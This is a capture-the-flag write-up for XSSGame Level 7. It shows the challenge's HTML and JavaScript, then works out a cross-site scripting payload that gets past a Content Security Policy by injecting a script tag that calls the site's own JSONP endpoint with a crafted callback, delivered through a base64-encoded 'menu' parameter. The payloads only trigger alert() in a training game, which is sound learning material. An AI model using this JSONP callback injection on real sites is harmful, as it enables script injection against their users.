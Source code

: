 # **XSSGame Level 7**

![](https://i.imgur.com/09DogdF.png)
CSP = Content Security Policy

First, we take a look at index.php
## index.php
```
<html>
  <head>
    <script src="/static/js/js_frame.js"></script>
  </head>
  <body align="center" bgColor="white">
    
    <a href="?menu=YWJvdXQ=">About Me</a>
    <!-- Image source: https://pixabay.com/en/construction-safety-site-banner-1174806/ License: Public Domain -->
    <a href="?menu=Y2F0cw==">Cats</a>
    <!-- Image source: https://pixabay.com/en/cat-red-christmas-santa-hat-funny-1898512/ License: Public Domain -->
    <!-- Image source: https://pixabay.com/en/cat-kitten-cute-funny-whiskers-1686730/ License: Public Domain -->
    <a href="?menu=ZG9ncw==">Dogs</a>
    <!-- Image source: https://pixabay.com/en/goggles-dog-canine-pet-vacation-1472479/ License: Public Domain -->
    <!-- Image source: https://pixabay.com/en/dog-sidecar-sunglasses-funny-171773/ License: Public Domain -->
    <script src="/static/js/level7.js"></script>
  </body>
</html>
```
Here's some `herf` : About Me`"?menu=YWJvdXQ="`, Cats`"?menu=Y2F0cw=="`, Dogs`"?menu=ZG9ncw=="`.

Cause to `==`, I guess they're Base64Encoded.

Then we take a look to JS file in last line:`<script src="/static/js/level7.js"></script>`.

## level7.js
```
/**
 * Ask server side what to display.
 */
function main() {
    var m = location.search.match('menu=(.*)');
    var menu = m ? atob(m[1]) : 'about';
    document.write('<script src="jsonp?menu=' + encodeURIComponent(menu) + '"></script>');
}

/**
 * Display stuff returned from server side.
 * @param {string} data - JSON data from server side
 */
function callback(data) {
    if (data.title) document.write('<h1>' + data.title + '</h1>');
    if (data.pictures) data.pictures.forEach(function(url) {
        document.write('<img src="/static/img/' + url + '"><br><br>');
    });
}

main();
```

First, we try some basic test for base64.

In web console:
```
> btoa('123')
< "MTIz"
```

![](https://i.imgur.com/kreHCNc.png)

Yap, it's base64.

Then we try to inject XSS:
```
> btoa('<script> alert();</script>')
< "PHNjcmlwdD4gYWxlcnQoKTs8L3NjcmlwdD4="
```
![](https://i.imgur.com/8uhkwaK.png)
![](https://i.imgur.com/5Q6gjtD.png)
Failed.
OK, here we got the title `CSP` ;)

We take a look to more detail in JSONP:
## JSON Data
![](https://i.imgur.com/YDBFeqz.png)

After we search some [vulnerabilities on JSONP](https://blog.csdn.net/jnu_simba/article/details/43241483), we found `jsonp?callback=` is really risky to be exploited.

![](https://i.imgur.com/iPfXHUA.png)

If you inject XSS like following, it will be reaturn in begining.

![](https://i.imgur.com/r1TTcA6.png)

Althoough we get return javascript, we need someone to excute this feedback, `menu=`

In web console:
```
> btoa("<script src='jsonp?callback=alert()%3B+%2F%2F'></script>")
< "PHNjcmlwdCBzcmM9J2pzb25wP2NhbGxiYWNrPWFsZXJ0KCklM0IrJTJGJTJGJz48L3NjcmlwdD4="
```

![](https://i.imgur.com/C0vYktM.png)

You'll see, first, `index.php` receive `jsonp` = `callback({"title":"Error, no such menu: <script src='jsonp?callback=alert()%3B+%2F%2F'></script>"})`

Then `document.write('<h1>' + data.title + '</h1>');` in `level7.js` write down `<h1>Error, no such menu: <script src="jsonp?callback=alert()%3B+%2F%2F"></script></h1>`

`<script src="jsonp?callback=alert()%3B+%2F%2F"></script>` will be excuted.

The return of `jsonp?callback=alert()%3B+%2F%2F` : `alert(); //({"title":"Welcome to my Website!","pictures":["const.png"]})` = `alert();` will be excute as javascript.

![](https://i.imgur.com/HCivW4t.png)

Fin.
